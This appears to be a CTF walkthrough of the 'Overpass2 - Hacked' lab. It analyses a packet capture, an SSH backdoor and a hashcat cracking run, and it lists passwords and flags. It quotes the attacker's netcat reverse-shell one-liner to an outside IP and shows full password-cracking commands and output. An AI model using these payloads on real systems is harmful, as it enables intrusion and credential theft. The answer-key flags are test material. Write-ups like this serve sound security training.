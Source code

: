 # Overpass2 - Hacked 

Author : revi1337  
Date : 2022-08-17

<hr>

## Task 1. Forensics - Analyse the PCAP 

### 1. What was the URL of the page they used to upload a reverse shell? 
!['Follow_tcp_stream'](./1.png)
!['Extract Methods'](./2.png)
> /development  

<br>

### 2. What payload did the attacker use to gain access?
!['find <? and <?php Tag by Regx'](./3.png)
> exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")

<br>

### 3. What password did the attacker use to privesc?
!['extract password'](./4.png)
> whenevernoteartinstant

<br>

### 4. How did the attacker establish persistence?
!['extract script src'](./5.png)
> https://github.com/NinjaJc01/ssh-backdoor

<br>

### 5. Using the fasttrack wordlist, how many of the system passwords were crackable?

!['extract credentials1'](./6.png)
!['extract credentials2'](./7.png)

> 4

<br><hr>

## Task 2. Research - Analyse the code 

### 1.  What's the default hash for the backdoor? 
!['download_backdoor'](./8.png)

> bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3

<br>

### 2. What's the hardcoded salt for the backdoor?
!['confirm main code'](./9.png)

> 1c362db832f3f864c8c2fe05f2002a05

<br>

### 3. What was the hash that the attacker used? - go back to the PCAP for this!
!['confirm main code'](./10.png)

> 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed

<br>

### 4. Crack the hash using rockyou and a cracking tool of your choice. What's the password?
![](./11.png)
```bash
$hashcat -m 1710 --force hash.txt /usr/share/wordlists/rockyou.txt
hashcat (v6.1.1) starting...

You have enabled --force to bypass dangerous warnings and errors!
This can hide serious problems and should only be done when debugging.
Do not report hashcat issues encountered when using --force.
OpenCL API (OpenCL 1.2 pocl 1.6, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=============================================================================================================================
* Device #1: pthread-Intel(R) Core(TM) i5-7200U CPU @ 2.50GHz, 2857/2921 MB (1024 MB allocatable), 2MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256
Minimim salt length supported by kernel: 0
Maximum salt length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash
* Uses-64-Bit

ATTENTION! Pure (unoptimized) backend kernels selected.
Using pure kernels enables cracking longer passwords but for the price of drastically reduced performance.
If you want to switch to optimized backend kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 64 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05:november16
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: sha512($pass.$salt)
Hash.Target......: 6d05358f090eea56a238af02e47d44ee5489d234810ef624028...002a05
Time.Started.....: Wed Aug 17 19:17:18 2022, (0 secs)
Time.Estimated...: Wed Aug 17 19:17:18 2022, (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   742.0 kH/s (1.14ms) @ Accel:1024 Loops:1 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests
Progress.........: 18432/14344385 (0.13%)
Rejected.........: 0/18432 (0.00%)
Restore.Point....: 16384/14344385 (0.11%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: christal -> tanika

Started: Wed Aug 17 19:17:17 2022
Stopped: Wed Aug 17 19:17:20 2022
```
> november16

<br>

<br><hr>

## Task 3. Attack - Get back in! 

### 1.  The attacker defaced the website. What message did they leave as a heading? 
![](./12.png)

> H4ck3d by CooctusClan

<br>

### 2. Using the information you've found previously, hack your way back in!

![](./13.png)

> 

<br>

### 3. What's the user flag?
![](./14.png)

> thm{d119b4fa8c497ddb0525f7ad200e6567}

<br>

### 4. What's the root flag?
![](./15.png)

> thm{d53b2684f169360bb9606c333873144d}

<br>